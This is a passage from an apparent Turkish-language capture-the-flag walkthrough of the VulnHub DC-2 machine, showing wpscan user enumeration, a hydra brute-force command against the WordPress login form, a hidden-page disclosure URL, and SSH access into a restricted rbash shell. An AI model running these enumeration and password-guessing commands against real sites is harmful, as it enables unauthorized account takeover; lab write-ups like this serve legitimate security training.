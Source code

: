 ```bash
wpscan --url http://dc-2/ --enumerate
```
Tarama sonucunda 3 adet kullanıcı adı tespit edilir. Ayrıca wordpress sürümünün 4.7.10 olduğu görülmektedir. 

{{< image src="/images/vulnhub/dc2/wpscan.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Elde edilen kullanıcı adları ile user.txt adında bir wordlist oluşturulur. Daha sonra hydra aracı ile wordpress admin paneline brute-force saldırısı yapılır.

```bash
hydra -L user.txt -P ./Wordlist_dc_2.lst dc-2 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```
{{< image src="/images/vulnhub/dc2/tom.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

{{< image src="/images/vulnhub/dc2/jerry.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}
## 2. Erişim Sağlanması
Jerry kullanıcısı ile login olunur. Pages sekmesine tıklanır ve mevcut sayfalar listelenir. 

{{< image src="/images/vulnhub/dc2/pages.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Flag2 sayfasına tıklanır. ***(Wordpress 4.7.10 sürümünde gizli sayfaların görüntülenmesini sağlayan bir zafiyet bulunmaktadır. http://dc-2/?static=1&order=asc)***

{{< image src="/images/vulnhub/dc2/flag2.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Daha sonra dosya media sekmesinden dosya upload edilemeye çalışıldığında kullanıcının buna yetkili olmadığı tespit edilir. :persevere:

{{< image src="/images/vulnhub/dc2/notupload.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Elde edilen parola bilgileri ssh servisinde denenir ve tom kullanıcı için ssh bağlantısı sağlanır.

```bash
ssh -p 7744 tom@192.168.56.109
```
{{< image src="/images/vulnhub/dc2/ssh.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Terminal ekranında cd vb. birçok komut çalıştırılamamaktadır. Shell türüne bakıldığında rbash olduğu görülmektedir.

{{< image src="/images/vulnhub/dc2/bash.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

İlk olarak çalıştırılabilir komutlar tespit edilir. Dizinde listeleme yapılır. Ayrıca ```echo $PATH``` komutu ile path dizini tespit edilir. ***/home/tom/usr/bin*** klasörü içerisinde tom kullanıcısın çalıştırabileceği komutlar yer almaktadır.

```bash
tom@DC-2:~$ cd usr
-rbash: cd: restricted

tom@DC-2:~$ ls -lsa
total 76
 4 drwxr-x--- 3 tom  tom   4096 Sep 28 07:19 .
 4 drwxr-xr-x 4 root root  4096 Mar 21  2019 ..
 4 -rwxr-x--- 1 tom  tom   1200 Sep 28 07:38 .bash_history
 4 -rwxr-x--- 1 tom  tom     30 Mar 21  2019 .bash_login
 4 -rwxr-x--- 1 tom  tom     30 Mar 21  2019 .bash_logout
 4 -rwxr-x--- 1 tom  tom     30 Mar 21  2019 .bash_profile
 4 -rwxr-x--- 1 tom  tom     30 Mar 21  2019 .bashrc
 4 -rwxr-x--- 1 tom  tom     95 Mar 21  2019 flag3.txt
```